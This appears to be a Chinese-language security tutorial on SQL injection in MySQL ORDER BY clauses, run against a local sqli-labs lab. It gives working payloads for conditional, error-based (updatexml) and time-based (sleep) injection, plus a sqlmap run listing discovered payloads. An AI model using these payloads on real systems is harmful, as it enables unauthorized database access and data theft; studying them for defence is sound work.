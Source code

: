>这一系列文章打算去总结sql注入发生的位置，并总结他们的不同，此文是第一篇order by位置的注入

排序注入为何要拿出来说：
1. order by之后可用的语句有限，有必要去总结下其利用的特点

2. order by位置是比较难以使用预编译去处理的，像mybatis这一类成熟的框架中也存在这种问题详见：[Mybatis框架下SQL注入漏洞面面观](https://mp.weixin.qq.com/s?src=3&amp;timestamp=1514813452&amp;ver=1&amp;signature=aort5C46VjBc1nw781Wc8WUSE8n3ErlNwWwH94BBZVSJ--3bdFc5yDWx2qD0Bs-ydAPLNqAcH01Jkncw28TLJxymWKhZAnRucnkLZHRkiQZAA89cHB0QJBKJt2TE5JCDLNrKyQuZS7YMeMtxGEX29oPP2mEI1j3ko9QBWFnNqR8=)
 
# 0X00 order by 的官方文档

```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
只看order by部分我们知道order by后可以是“字段名”、“表达式”、“字段位置”，另外order by之后不可以出现union
```shell
mysql> select * from emails order by email_id union seletc * from users;
ERROR 1221 (HY000): Incorrect usage of UNION and ORDER BY
```
为啥会报错，还是mysql的文档用法里写的，大意就是order by如果出现在子句中必须出现在末尾或者将每个子句加上括号提升优先级，否则都会按照union的语法去执行
```sql
substatement union all substatement union all substatement [order by-clause] [limit-clause]
```
# order by 注入利用
这里的利用方式无非也就两种：

1. 有回显式的注入
2. 盲注

首先解释第一种，有回显的注入。这种注入需要一个前置的条件，就是我们必须知道“字段名“，注意这里知道”字段位置“是没有用的，因为，这里的数字会被认为是字符串。依据页面排序的不同我们可以判断我们注入是否得到我们需要的值，像下面这样
```sql
mysql> select * from users order by if(1=2,id,username);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 14 | admin4   | admin4     |
|  2 | Angelina | I-kill-you |
|  7 | batman   | mob!le     |
| 12 | dhakkan  | dumbo      |
|  1 | Dumb     | Dumb       |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
+----+----------+------------+
13 rows in set (0.00 sec)

mysql> select * from users order by if(1=1,id,username);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
+----+----------+------------+
13 rows in set (0.00 sec)
```
接下来是第二种，盲注，这里的盲注由于可以插入语句，所以基本上和where位置的注入差不了太多，可以报错或者时间

报错注入
```sql
mysql> select * from users order by updatexml(1,user(),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhost'
```
更多的报错技巧可以查看之前的报错注入篇

时间注入
```sql
mysql> select * from users order by if(1=1,sleep(1),1);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  9 | admin1   | admin1     |
|  4 | secure   | crappy     |
| 12 | dhakkan  | dumbo      |
|  7 | batman   | mob!le     |
|  2 | Angelina | I-kill-you |
| 10 | admin2   | admin2     |
|  5 | stupid   | stupidity  |
| 14 | admin4   | admin4     |
|  8 | admin    | admin      |
|  3 | Dummy    | p@ssword   |
| 11 | admin3   | admin3     |
|  6 | superman | genious    |
+----+----------+------------+
13 rows in set (13.05 sec)
```
可以发现这报错和时间注入在order by的情况下和where的情况下几近相似
相比回显和盲注，在order by的场景下，似乎是盲注的利用条件要简单过回显，但是回显的情况我相信还是存在的，只是还没有遇见
# order by 注入成熟利用
比较过order by位置和where位置我相信一般的sqlmap注入指令就可以跑出这种类型的注入了，我们来看看
```shell
python sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-46/?sort=1" --dbms mysql --technique=BEUS
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.1.5#dev}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:05:42

[22:05:43] [INFO] testing connection to the target URL
[22:05:43] [INFO] testing if the target URL content is stable
[22:05:44] [INFO] target URL content is stable
[22:05:44] [INFO] testing if GET parameter 'sort' is dynamic
[22:05:44] [INFO] confirming that GET parameter 'sort' is dynamic
[22:05:44] [INFO] GET parameter 'sort' is dynamic
[22:05:44] [INFO] heuristic (basic) test shows that GET parameter 'sort' might be injectable (possible DBMS: 'MySQL')
[22:05:44] [INFO] heuristic (XSS) test shows that GET parameter 'sort' might be vulnerable to cross-site scripting (XSS) attacks
[22:05:44] [INFO] testing for SQL injection on GET parameter 'sort'
for the remaining tests, do you want to include all tests for 'MySQL' extending provin
[22:05:47] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:05:47] [WARNING] reflective value(s) found and filtering out
[22:05:47] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[22:05:47] [INFO] GET parameter 'sort' appears to be 'MySQL >= 5.0 boolean-based blind - Parameter replace' injectable (with --string="10")
[22:05:47] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[22:05:47] [INFO] GET parameter 'sort' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[22:05:47] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:05:47] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
GET parameter 'sort' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: sort (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: sort=(SELECT (CASE WHEN (8800=8800) THEN 8800 ELSE 8800*(SELECT 8800 FROM INFORMATION_SCHEMA.PLUGINS) END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: sort=1 AND (SELECT 4316 FROM(SELECT COUNT(*),CONCAT(0x717a7a7871,(SELECT (ELT(4316=4316,1))),0x716b717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
---
[22:05:49] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.6.33, Apache 2.4.28
back-end DBMS: MySQL >= 5.0
[22:05:49] [INFO] fetched data logged to text files under '/Users/nanchealdu/.sqlmap/output/127.0.0.1'
```
事实确实如此